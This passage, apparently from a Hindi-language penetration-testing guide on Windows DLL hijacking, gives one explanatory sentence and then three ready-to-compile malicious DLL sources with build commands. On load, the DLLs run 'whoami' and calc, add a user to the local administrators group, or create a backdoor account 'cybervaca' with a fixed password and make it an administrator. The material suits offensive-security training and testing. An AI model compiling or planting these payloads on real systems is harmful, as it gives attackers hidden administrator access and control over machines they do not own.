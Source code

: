 ध्यान दें कि कई मामलों में, Dll जिसे आप संकलित करते हैं, को **कई फ़ंक्शन निर्यात** करने चाहिए जो पीड़ित प्रक्रिया द्वारा लोड किए जाएंगे, यदि ये फ़ंक्शन मौजूद नहीं हैं तो **बाइनरी उन्हें लोड नहीं कर पाएगी** और **शोषण विफल हो जाएगा**।
```c
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
switch(dwReason){
case DLL_PROCESS_ATTACH:
system("whoami > C:\\users\\username\\whoami.txt");
WinExec("calc.exe", 0); //This doesn't accept redirections like system
break;
case DLL_PROCESS_DETACH:
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
}
return TRUE;
}
```

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
if (dwReason == DLL_PROCESS_ATTACH){
system("cmd.exe /k net localgroup administrators user /add");
ExitProcess(0);
}
return TRUE;
}
```

```c
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a

#include <windows.h>

int owned()
{
WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
exit(0);
return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
owned();
return 0;
}
```
